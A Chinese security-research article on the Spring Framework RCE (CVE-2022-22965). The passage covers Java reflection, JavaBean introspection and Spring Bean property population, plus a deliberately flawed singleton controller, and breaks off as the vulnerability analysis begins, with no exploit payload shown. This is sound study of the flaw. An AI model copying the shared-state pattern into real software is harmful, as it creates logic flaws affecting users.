## 从零开始，分析 Spring Framework RCE

- - -

## [0x01 写在前面](#toc_0x01)

如果需要让你对一套 CMS 的安全性进行研究分析，你会从哪里入手？

或许你会回答代码审计的那一套知识点。

那么，如果需要让你要对 Spring Framework 框架的安全性进行研究分析，你会从哪里入手？

更宽泛一点，如果需要让你对一个大型的开源组件的安全性进行研究分析，你会从哪里入手？

实际上自从 Spring Framework RCE（CVE-2022-22965）漏洞被爆出后，我就在思考这样的一个问题。

如果让我去分析这种类似于 Spring Framework 框架的安全性，我能够发现这个漏洞吗？

我给自己的结论是不能。

分析了主要原因，主要有三点。

第一是基础不牢，当你不知道 Spring Framework 框架内部运行的机制以及其特色的实现原理的时候，你不可能从中找到不足点；

这个很容易理解，你都不懂我，你怎么可能会懂我的不足。

第二是积累不够，当你都不知道 Spring Framework 框架曾经出现过哪些问题的时候，你又怎么可能知道曾经出现问题的地方有没有可能被绕过；

这一点其实很简单，但也最怕眼高手低，最常有的想法是这都十多年前的漏洞了，看了应该也没啥意思，不如看看最近出现过的新的漏洞。

第三是知识的广度，当你都不知道 JDK 新特性以及新特性如何去使用的时候，你又怎么可能找到绕过的方法；

这一点最难去弥补，安全的知识海洋太广了，没有人能够把自己知识的广度做到 100% 的安全面，但最关键的地方并不在于要做到 100% 的广度，而是要做到你了解到的广度能够帮你实现目标；

那这三点应该如何去解决呢？在文章的末尾我会给出我的见解。

下面会从**基础知识**到**漏洞原理**到**漏洞修复**对 Spring Framework RCE 漏洞进行分析。

## [0x02 基础知识](#toc_0x02)

### [java.lang.Class](#toc_javalangclass)

在 Java 中有两种对象：Class 对象和实例对象。

实例对象是类的实例，通常是通过 new 这个关键字构建的；Class 对象是 JVM 生成用来保存对象的类的信息的；

在代码中写的每一个类都是对象，也同是 java.lang.Class 类的对象。换而言之，每个类都有自己的实例对象，而且也都是 Class 类的对象。

在 java.lang.Class 类中对 Class 类的构造方法有相关说明：

```plain
    /*
     * Private constructor. Only the Java Virtual Machine creates Class objects.
     * This constructor is not used and prevents the default constructor being
     * generated.
     */
    private Class(ClassLoader loader, Class<?> arrayComponentType) {
        // Initialize final field for classLoader.  The initialization value of non-null
        // prevents future JIT optimizations from assuming this final field is null.
        classLoader = loader;
        componentType = arrayComponentType;
    }
```

> Private constructor. Only the Java Virtual Machine creates Class objects. This constructor is not used and prevents the default constructor being generated.

可以看到，Class 类的构造方法是私有构造函数，只有 JVM 才可以创建该类的对象。也就是说，我们是没有办法通过 new 的方式声明一个 Class 对象的，如下图，当我们尝试 new 一个 Class 对象的时候，会报错：

[](https://storage.tttang.com/media/attachment/2022/04/04/9dd5d791-eae5-4541-9b97-953a005c2faa.png)

虽然我们无法通过 new 的方式得到 Class 类的对象，但是依然有其他方式获得 Class 类的对象，如：通过类的静态成员变量来获取、通过 j

ava.lang.Object.getClass() 方法返回运行时类的对象、通过 Class 的静态方法 forName() 获取：

[](https://storage.tttang.com/media/attachment/2022/04/04/7c283ae6-4b30-4d6c-b39b-554cd24f4bb5.png)

可以这样去理解，获取到一个类对象后，就可以调用这个类中的一些方法，当获取到 Class 对象后，变相的获取了所有 Class 类的对象，通过调用这个 Class 类下实例对象的方法，就相当于调用了实例对象的方法。

### [JavaBean](#toc_javabean)

在介绍 SpringBean 之前需要对 JavaBean 有一定的了解，根据官方的介绍如下：

> JavaBean 是一种 Java 语言写成的可重用组件。写成 JavaBean，类必须是具体的和公共的，并且具有无参数的构造器。JavaBean 通过提供符合一致性设计模式的公共方法将内部域暴露成员属性，long 和 class 方法获取。众所周知，属性名称符合这种模式，其他 Java 类可以通过自省机制发现和操作这些 JavaBean 的属性。

官方的话听起来可能比较难以理解，你只需要知道 JavaBean 和一个类在语法上没有区别——如果一个类遵循了 JavaBean 标准，那么它就是一个 JavaBean。JavaBean 标准有以下要求：

-   所有的类必须声明为`public`，这样才能够被外部所访问；
    
-   类中所有的属性都必须封装，即：使用`private`声明；
    
-   封装的属性如果需要被外部所操作，则必须编写对应的`setter`、`getter`方法；
-   一个 JavaBean 中至少存在一个无参构造方法

比如：

```plain
public class Person {
    private String name;
    private int age;

    public String getName() { 
      return this.name; 
    }
    public void setName(String name) { 
      this.name = name; 
    }
    public int getAge() { 
      return this.age; 
    }
    public void setAge(int age) { 
      this.age = age; 
    }
}
```

这个 Person 类读写方法符合以下这种命名规范：

```plain
// 读方法：
public Type getXyz()
// 写方法：
public void setXyz(Type value)
```

那么这个 Person 类实际上就是一个 JavaBean

读写方法名分别以`get`和`set`开头，并且后接大写字母开头的字段名`Xyz`

因此两个读写方法名分别是`getXyz()`和`setXyz()`

这里的`getName()`、`getAge()`、`gsetName()`、`setAge()`就符合了这种规范

不过`boolean`字段比较特殊，它的读方法一般命名为`isXyz()`：

如：

```plain
// 读方法：
public boolean isChild()
// 写方法：
public void setChild(boolean value)
```

此外，通常把一组对应的读方法（`getter`）和写方法（`setter`）称为属性（`property`）。例如，Person 类中的`name`的属性：

-   对应的读方法是`String getName()`
-   对应的写方法是`setName(String)`

**只有**`getter`的属性称为只读属性（read-only），例如，定义一个 age 只读属性：

-   对应的读方法是`int getAge()`
-   **无**对应的写方法`setAge(int)`

同理，只有`setter`的属性称为只写属性（write-only），一般只读属性很常见，只写属性不常见。

没错，看到这里实际上你也写过很多 JavaBean，当我们在编译器中使用 `Generate Getters and Setters`，在弹出的对话框中选中需要生成`getter`和`setter`方法的字段时，就是在创建一个 JavaBean

JavaBean 主要用来传递数据，是为了把一组数据组合成一个 JavaBean 便于传输

我们可以通过 Java 核心库提供的 Introspector 来获取一个 JavaBean 的所有属性以及对应属性的读写方法：

```plain
import java.beans.BeanInfo;
import java.beans.IntrospectionException;
import java.beans.Introspector;
import java.beans.PropertyDescriptor;

public class ClassTest {
    public static void main(String[] args) throws ClassNotFoundException, IntrospectionException {
        BeanInfo info = Introspector.getBeanInfo(Person.class);
        for (PropertyDescriptor pd : info.getPropertyDescriptors()) {
            System.out.println(pd.getName());
            System.out.println("    [*]" + pd.getReadMethod());
            System.out.println("    [*]" + pd.getWriteMethod());

        }
    }
}
```

运行结果如下图：

[](https://storage.tttang.com/media/attachment/2022/04/04/9433464a-e191-4f35-8a7a-09ee6e5930cb.png)

可以看到运行结果中不但含有 Person 的 Name 和 Age 属性，还有一个名为 class 的属性，并且在这个属性中还有 getClass() 的方法，实际上 Java Object 类是所有类的父类，也就是说 Java 的所有类都继承了 Object，子类可以使用 Object 的所有方法，这里的 class 属性就是从 Object 继承的`getClass()`方法带来的。

### [内省 (Introspector)](#toc_introspector)

内省 (Introspector) 是 Java 语言对 JavaBean 类属性、事件的一种缺省处理方法。

假设存在一个类：

```plain
public class Person {
    private String name;
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
}
```

在 Person 类中存在为 name 的属性值，并且存在对应的 set/get 方法，我们就可以通过 set/get 方去赋值和取值，这就是默认的规则。

Java JDK 中提供了一套 API 用来访问某个属性的 getter/setter 方法，这就是内省。

JDK 内省类库主要有以下几个：

#### [Introspector 类](#toc_introspector_1)

将 JavaBean 中的属性封装起来进行操作。在程序把一个类当做 JavaBean 来看，就是调用 Introspector.getBeanInfo() 方法，得到的 BeanInfo 对象封装了把这个类当做 JavaBean 看的结果信息，即属性的信息。

getPropertyDescriptors()，获得属性的描述，可以采用遍历 BeanInfo 的方法，来查找、设置类的属性。

#### [BeanInfo 类](#toc_beaninfo)

BeanInfo 是一个接口，具体实现是 GenericBeanInfo，通过这个接口可以获取一个类的各种类型的描述符。主要方法：

1、BeanDescriptor getBeanDescriptor()，获取 JavaBean 描述符

2、EventSetDescriptor\[\] getEventSetDescriptors()，获取 JavaBean 的所有的 EventSetDescriptor

3、PropertyDescriptor\[\] getPropertyDescriptors()，获取 JavaBean 的所有的 PropertyDescriptor

4、MethodDescriptor\[\] getMethodDescriptors()，获取 JavaBean 的所有的 MethodDescriptor

#### [PropertyDescriptor 类](#toc_propertydescriptor)

PropertyDescriptor 类表示 JavaBean 类通过存储器导出一个属性。主要方法：

```plain
   1. getPropertyType()，获得属性的 Class 对象;
   2. getReadMethod()，获得用于读取属性值的方法；getWriteMethod()，获得用于写入属性值的方法;
   3. hashCode()，获取对象的哈希值;
   4. setReadMethod(Method readMethod)，设置用于读取属性值的方法;
   5. setWriteMethod(Method writeMethod)，设置用于写入属性值的方法。
```

Introspector 和 PropertyDescriptor 这两个类的比较可以看出，都是需要获得 PropertyDescriptor，只是方式不一样：前者需要遍历，后者通过创建对象直接获得，所以使用 PropertyDescriptor 类更加方便。

此外，实际上还有一些三方的内省库，比如 Apache 的 BeanUtils 工具包

关于内省，我们一定要知道的一点是，由于所有的类都是 Object 的子类，Object 又拥有 getClass() 方法，Java 内省机制认为，只要有 get/set 方法中的其中一个，那么就可以找到 class 属性。

### [SpringBean](#toc_springbean)

> Spring Bean 是事物处理组件类和实体类（POJO）对象的总称，是能够被实例化、能够被 spring 容器管理的 java 对象。

官方的介绍总是有点抽象比较难以理解的。实际上你可以把他当成 JavaBean 的翻版，但是远比 JavaBean 约束少且更强大。

我们在上面提到了 JavaBean 要求每个属性都提供 getter 或 setter 方法并且还有其他的一些约束条件，但 Spring 容器对 Bean 没有特殊要求，不像 javaBean 一样遵循一些规范，甚至不要求该 Bean 像标准的 JavaBean 那样必须为每个属性提供对应的 getter 和 setter 方法。虽然 Spring 对 Bean 没有特殊要求，但还是建议 Spring 中的 Bean 应该尽量满足如下几个原则：

-   尽量为每个 Bean 实现类提供无参的构造器
-   接受构造注入的 Bean，应该提供对应的构造方法
-   接受值注入的 Bean，应该提供对应的 setter 方法，并不强制要求提供对应的 getter 方法

想象一下，把 Spring 当成一个一个大型的车间工厂，而 Spring 容器中的 Bean 就是该车间工厂的产品，并且受到 Spring 容器创建和管理。

以前我们要用对象是通过自己`new`来生产的，但是现在只需要通过 Spring 这个工厂来代替我们管理生产就行了，我们只需要来使用。

当然，我们也不能什么都不做，比如 Spring 车间工程只能生成牙刷，但是你还需要纸巾，那么你就要去开发纸巾（Bean），并且配置好纸巾所需的材料（Bean 中的属性），再让 Spring 去生产，然后你才可以去使用。

对于 Spring 来说，它要做的就是根据配置文件来创建 Bean 实例，并调用 Bean 实例的方法完成依赖注入。

简而言之，Spring Bean 是 Spring 框架在运行时管理的对象。Spring Bean 是任何 Spring 应用程序的基本构建块。使用 Spring 框架时编写的大多数应用程序逻辑代码都将放在 Spring Bean 中。

#### [SpringBean 的创建](#toc_springbean_1)

SpringBean 的创建和装配的方式由很多种，这里由于篇幅关系不做详细说明了，只做一个通过 xml 配置文件来创建 Bean 的示例来简单说明。

假设存在一个配置文件内容如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns="http://www.springframework.org/schema/beans"
    xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans-3.0.xsd">
    <bean id="bean1" class="com.Person">
        <constructor-arg value="panda"/>
        <constructor-arg value="18"/>
    </bean>
</beans>
```

则 Spring 相当于调用如下代码：

```plain
Bean bean = new com.Person("panda","18");
```

这看着很简单，但实际上 Spring 为我们做了很多事情，具体可以借用一张[流程图](https://juejin.cn/post/6969034239199150087)来说明：

[](https://storage.tttang.com/media/attachment/2022/04/04/320c011e-6f1a-450d-8b3a-a40db8691fb6.png)

可以看到实际上核心点主要有以下四步：

-   第一，调用`createBeanInstance(String beanName, RootBeanDefinition mbd, Object[] args)`方法，来进行 bean 的创建
    
-   第二，对于单例模式的 bean 进行循环依赖的检查
    
-   第三，调用`populateBean(beanName, mbd, instanceWrapper)`来实现对刚创建的 bean 进行属性的填充
    
-   第四，调用`initializeBean(beanName, exposedObject, mbd)`来完成 bean 的初始化
    

#### [SpringBean 的使用](#toc_springbean_2)

Bean 的使用可以参考[网上](https://juejin.cn/post/6844904106805444621)的一张图，我对它重新画了下：

[](https://storage.tttang.com/media/attachment/2022/04/13/e546dd61-ef34-4491-8c79-1ce3401a53e4.jpg)

在启动 Spring 应用程序时，框架首先会创建一个名为 ApplicationContext 的特殊对象。ApplicationContext，也称为控制反转（IoC）容器，是框架的核心。ApplicationContext 也即是存在 bean 对象的容器，包含了所有需要使用 Spring 容器托管的 bean。

BeanFactory 接口定义了 IoC 容器提供的主要功能，在 Spring 中，一组以 Registry 为后缀的接口定义了 Spring Bean 的注册功能。这些 Registry 接口的实现类即为 Spring Bean Definition 的“家”，所有 bean 的配置信息都在这些类中，因此，这些实现类可以称之为 SpringBean 的注册表。

在 SpringBean 要使用时，第一步就是从 SpringBean 的注册表中获取 Bean 的配置信息，然后根据配置信息实例化 Bean，实例化以后的 Bean 被映射到了 Spring 容器中，并且被存储在了 Bean Cache 池中，当应用程序要使用 Bean 时，会向 Bean Cache 池发起调用。

#### [SpringBean 的属性填充](#toc_springbean_3)

上面介绍了 Spring 创建 bean 的流程，即 Spring 先通过反射创建一个原始的 bean 对象，然后再向这个原始的 bean 对象中填充属性。

对于填充属性这个过程，简单点来说，JavaBean 的每个属性通常都有 getter/setter 方法，我们可以直接调用 setter 方法将属性值设置进去。

当然，这样做还是太简单了，填充属性的过程中还有许多事情要做。比如在 Spring 配置中，所有属性值都是以字符串的形式进行配置的，我们在将这些属性值赋值给对象的成员变量时，要根据变量类型进行相应的类型转换。

对于一些集合类的配置，还要将这些配置转换成相应的集合对象才能进行后续的操作。

除此之外，如果用户配置了自动注入（autowire = byName/byType），Spring 还要去为自动注入的属性寻找合适的注入项。

由此可以见，属性填充的整个过程还是很复杂的，并非是简单调用 setter 方法设置属性值即可。

我们在上面的 SpringBean 的创建中就提到了，属性填充的入口方法 DefaultListableBeanFactory#populateBean，SpringBean 的属性填充就是通过调用该方法来实现的。

由于篇幅关系就不一步一步从源码的角度来剖析 Spring IOC 对 Bean 属性填充的过程了，这里只对关键点做个介绍。

-   从 rootBeanDefinition 中获取 bean 的属性值，并注入

这里实际上是自动注入，并且通过`AbstractBeanDefinition#getResolvedAutowireMode()`返回的值来判断是以什么样的方式注入的：

```plain
//<1>获取 resolvedAutowireMode 的编码
int resolvedAutowireMode = mbd.getResolvedAutowireMode();
    //如果编码为 AUTOWIRE_BY_NAME 为 1 或者 AUTOWIRE_BY_TYPE 为 2
        //如果返回的值为 1，则是通过名称去注入，如果是 2，则是通过类型去注入
    if (resolvedAutowireMode == AUTOWIRE_BY_NAME || resolvedAutowireMode == AUTOWIRE_BY_TYPE) {
        //对 PropertyValues 属性进行封装成 MutablePropertyValues 对象
        //因为 MutablePropertyValues 主要是可以对构造函数进行深度的拷贝，以及属性的操作，这样可以保证我们的属性值是独立的
        MutablePropertyValues newPvs = new MutablePropertyValues(pvs);
        // Add property values based on autowire by name if applicable.
        //根据名称自动注入
        if (resolvedAutowireMode == AUTOWIRE_BY_NAME) {
            autowireByName(beanName, mbd, bw, newPvs);
        }
        // Add property values based on autowire by type if applicable.
        //根据类型自动注入
        if (resolvedAutowireMode == AUTOWIRE_BY_TYPE) {
            autowireByType(beanName, mbd, bw, newPvs);
        }
        pvs = newPvs;
    }
```

实际上，Spring 自动注入是通过某个类的 set 方法来查找 bean, byName 就是根据某个 set 方法所对应的属性名去查找 bean，byType 就是根据某个 set 方法的参数去找 bean

-   解析注解并注入

执行完成 Spring 的自动注入之后，就开始调用 BeanPostProcessor 分别解析 @Autowired、@Resource、@Value 为属性注入值。

```plain
for (BeanPostProcessor bp : getBeanPostProcessors()) {
            if (bp instanceof InstantiationAwareBeanPostProcessor) {
                InstantiationAwareBeanPostProcessor ibp = (InstantiationAwareBeanPostProcessor) bp;

                // 调用 BeanPostProcessor 分别解析 @Autowired、@Resource、@Value 为属性注入值
                // 此处会从后置处理，从里面把依赖的属性，值都拿到。AutowiredAnnotationBeanPostProcessor就是在此处拿出值的
                PropertyValues pvsToUse = ibp.postProcessProperties(pvs, bw.getWrappedInstance(), beanName);

                if (pvsToUse == null) {
                    if (filteredPds == null) {
                        filteredPds =filterPropertyDescriptorsForDependencyCheck(bw, mbd.allowCaching);
                    }
                    pvsToUse = ibp.postProcessPropertyValues(pvs, filteredPds, bw.getWrappedInstance(), beanName);
                    if (pvsToUse == null) {
                        return;
                    }
                }
                pvs = pvsToUse;
            }
        }
```

-   完成解析，统一存放在 PorpertyValues 中

在上一步骤中，只会解析依赖，并不会将解析出的依赖立即注入到 bean 对象中。所有的属性值是在 applyPropertyValues 方法中统一被注入到 bean 对象中的。

```plain
if (pvs != null) {
        applyPropertyValues(beanName, mbd, bw, pvs);
    }
}
```

在该方法中主要实现以下逻辑：

-   在进行属性值的注入时，如果属性值不需要转换，那么直接进行注入
-   当需要对属性值进行转换时，首先是转换成对应类的属性的属性值，接着设置，最后完成注入

这里进行注入的方式是通过调用 setPropertyValues 实现的，并且这个方法的调用栈的最底部是通过调用对象的 setter 方法进行属性设置的：

```plain
public class BeanWrapperImpl extends AbstractNestablePropertyAccessor implements BeanWrapper {

    ......

    private class BeanPropertyHandler extends PropertyHandler {

        public void setValue(final Object object, Object valueToApply) throws Exception {
            // 获取 writeMethod，也就是 setter 方法
            final Method writeMethod = this.pd.getWriteMethod();
            if (!Modifier.isPublic(writeMethod.getDeclaringClass().getModifiers()) && !writeMethod.isAccessible()) {
                writeMethod.setAccessible(true);
            }
            final Object value = valueToApply;
            // 调用 setter 方法，getWrappedInstance() 返回的是 bean 对象
            writeMethod.invoke(getWrappedInstance(), value);
        }
    }
}
```

以上，总结一下，实际上首先是从 beanDefinition 中获取到属性的值，然后将 PropertyValues 属性值封装成 MutablePropertyValues 的对象，经过一系列的处理最后通过 applyPropertyValues 方法将属性应用到具体的 bean 中。

#### [SpringBean 的作用域](#toc_springbean_4)

SpringBean 的作用域和本文的关系不是太大，但是挺有意思，所以也提一下，做个简单说明。

当通过 Spring 容器创建一个 Bean 实例时，不仅可以完成 Bean 的实例化，还可以为 Bean 指定特定的作用域。

Spring 支持 5 种作用域：

-   **singleton:** 单例模式，当 spring 创建 applicationContext 容器的时候，spring 会欲初始化所有的该作用域实例，加上 lazy-init 就可以避免预处理；
-   **prototype：** 原型模式，每次通过 getBean 获取该 bean 就会新产生一个实例，创建后 spring 将不再对其管理；
-   **request：** 对于每次 HTTP 请求，使用 request 定义的 Bean 都将产生一个新的实例，即每次 HTTP 请求都会产生不同的 Bean 实例。当然只有在 WEB 应用中使用 Spring 时，该作用域才真正有效。搞 web 的大家都应该明白 request 的域了吧，就是每次请求都新产生一个实例，和 prototype 不同就是创建后，接下来的管理，spring 依然在监听；
-   **session:** 对于每次 HTTPSession，使用 session 定义的 Bean 都将产生一个新的实例时，即每次 HTTP Session 都将产生不同的 Bean 实例。同 HTTP 一样，只有在 WEB 应用才会有效。
-   **global session:** 全局的 web 域，类似于 servlet 中的 application。

比较常用的是单例模式和原型模式。

如果一个 Bean 实例被设置为单例模式，**那么每次请求该 Bean 时都会获得相同的实例**。并且由容器负责跟踪 Bean 实例的状态，负责维护 Bean 实例的生命周期行为。

如果一个 Bean 实例被设置为原型模式，那么每次请求该 Bean 时，Spring 都会创建一个新的 Bean 实例返回给程序，在这种情况下，Spring 容器仅仅使用 new 关键字创建 Bean 实例，一旦创建成功，容器将不会再跟踪实例，也不会维护 Bean 实例的状态。

如果我们不指定 Bean 的作用域，则 Spring 会默认使用单例模式作用域。比如 SpringBoot 中的 Controller，我们如果不定义作用域，那么实际上使用的就是默认的单例模式。正是因为单例，所以其线程不是安全的，如果使用非静态的成员变量就可能造成逻辑漏洞。

比如有一个 Controller 如下：

```plain
package com.example.beantest.controller;

import org.springframework.context.annotation.Scope;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
@ResponseBody
public class ScopeTestController {

    private int code = 0;

    @RequestMapping("/admin")
    public String testScope() {
        ++code;
        if (code > 0) {
           return "code:" + code + "<br>" + "You are admin";
        }else {
            return "code:" + code + "<br>" + "    You are user";
        }
    }

    @RequestMapping("/user")
    public String testScope2() {
        --code;
        if (code <= 0) {
            return "code:" + code + "<br>" + "You are user";
        }else {
            return "code:" + code + "<br>" + "You are admin";
        }
    }

}
```

代码逻辑很简单，如果首先访问 [http://localhost:8080/admin](http://localhost:8080/admin) ，再访问 http://localhost:8080/user 则会提示：

[](https://storage.tttang.com/media/attachment/2022/04/04/3c072233-a18d-4612-b41c-dcef542121a3.png)

但如果访问两次 http://localhost:8080/admin，再再访问 http://localhost:8080/user 则会提示：

[](https://storage.tttang.com/media/attachment/2022/04/04/62c5cc86-9b9f-4606-91ad-26c334abe78a.png)

可以看到 code 的值是随着访问 admin 页面的次数而增加的，当访问两次 admin 页面后，使得 code 的值变成了 2，也导致了 user 的逻辑出现了问题。

而如果此时我们在@Controller 注解的下面添加@Scope("prototype")，即设置作用域为原型模式，那么就不会出现这种问题：

[](https://storage.tttang.com/media/attachment/2022/04/04/68fa05d5-a296-4b4d-bcb4-ee4534461eac.png)

可以看到单例是不安全的，会导致属性重复使用。但也不能什么时候都使用原型模式，因为 Java 在创建 Java 实例时，需要进行内存申请。销毁实例时，需要完成垃圾回收。这些工作都会导致系统开销的增加。因此，原型模式作用域 Bean 的创建、销毁代价会比较大。而单例模式作用域的 Bean 实例一旦创建成功，可以重复使用。因此，除非必要，否则尽量避免将 Bean 的作用域设置为原型模式。（毕竟上面这种示例代码基本上不会有人那么去写）

了解这些基础知识后，基本上就可以来看看这个漏洞是怎么一回事了。

## [0x03 漏洞分析](#toc_0x03)

这个漏洞实际上可以算是 CVE-2010-1622 的绕过，因此这两个漏洞可以一起来分析。

假设存在一个 Person 类如下：

```plain
public class Person {
    private String name;
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
}
```

存在一个 Controller 如下：

```plain
@Controller
@ResponseBody
public class IndexController {

    @GetMapping("index")
    public String index(Person person){
        return "Your name is :  "+ person;
    }

}
```

那么如果我们想给 index 方法传入一个 name，应该怎么做？

